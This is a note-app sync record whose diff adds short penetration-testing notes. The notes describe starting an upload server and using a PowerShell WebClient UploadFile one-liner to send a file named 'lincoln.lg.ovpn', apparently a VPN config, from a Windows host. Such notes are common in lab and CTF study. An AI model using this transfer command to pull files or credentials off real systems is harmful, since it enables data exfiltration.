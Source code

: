 id: 9564e03345d94f64bcc88f041ef5e00c
parent_id: 4211ec9fd9cc44a0ac1dc267490eb9d2
item_type: 1
item_id: 6542c907ee3d4b659b0fd7588c5dbe48
item_updated_time: 1642576840515
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"load: \\\n\\\n\"],[1,\"Turn on the upload server in /var/www/html:\\\n\\\n> python3 http-server.py -p 8000 --no-ssl\\\n\\\nOn the client side, Use powershell commands to send the file\\\n\\\n> (New-Object System.Net.WebClient).UploadFile('http://127.0.0.1:8000/', 'lincoln.lg.ovpn')\\\n\\\nOld upload method:\\\n\\\n\"],[0,\"- Start \"]],\"start1\":200,\"start2\":200,\"length1\":16,\"length2\":279},{\"diffs\":[[0,\"ws Host:\"],[1,\"\\\n    -\"],[0,\" powersh\"]],\"start1\":602,\"start2\":602,\"length1\":16,\"length2\":22}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-19T07:25:39.336Z
created_time: 2022-01-19T07:25:39.336Z
type_: 13